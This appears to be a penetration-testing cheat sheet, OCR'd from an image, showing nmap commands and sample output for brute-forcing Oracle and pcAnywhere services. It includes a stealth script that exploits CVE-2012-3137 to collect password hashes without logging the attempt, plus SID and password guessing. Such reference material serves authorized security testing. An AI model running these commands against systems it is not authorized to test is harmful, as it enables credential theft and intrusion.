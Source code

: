 

### Oracle - Brute-Force-stealth                  
_Exploits the CVE-2012-3137 vulnerability, a weakness in Oracle's O5LOGIN authentication scheme_ The vulnerability exists in Oracle 11g R1/R2 and allows linking the session key to a password hash_ When initiating an authentication attempt as a valid user the server will respond with a session key and salt_ Once received the script will disconnect the connection thereby not recording the login attempt_ The session key and salt can then be used to Brute-Force the users password_
     
     root@hostname: ~/ # nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 192.168.1.12

     |PORT     STATE  SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-brute-stealth:
     |   Accounts
     |     dummy:$o5logon$1245C95384E15E7F0C893FCD1893D8E19078170867E892CE86DF90880E09FAD3B4832CBCFDAC1A821D2EA8E3D2209DB6*4202433F49DE9AE72AE2 - Hashed valid or invalid credentials
     |     nmap:$o5logon$D1B28967547DBA3917D7B129E339F96156C8E2FE5593D42540992118B3475214CA0F6580FD04C2625022054229CAAA8D*7BCF2ACF08F15F75B579 - Hashed valid or invalid credentials
     |   Statistics
     |_    Performed 2 guesses in 1 seconds, average tps: 2




### oracle-sid - Brute-Force                     
_Guesses Oracle instance/SID names against the TNS-listener_
     
     root@hostname: ~/ # nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 192.168.1.12
     root@hostname: ~/ # nmap --script=oracle-sid-brute -p 1521-1560 192.168.1.12

     |PORT     STATE SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-sid-brute:
     |   orcl
     |   prod
     |_  devel




### pcAnywhere - Brute-Force                     
_Performs Brute-Force password auditing against the pcAnywhere remote access protocol_
     
     root@hostname: ~/ # nmap --script=pcanywhere-brute 192.168.1.12
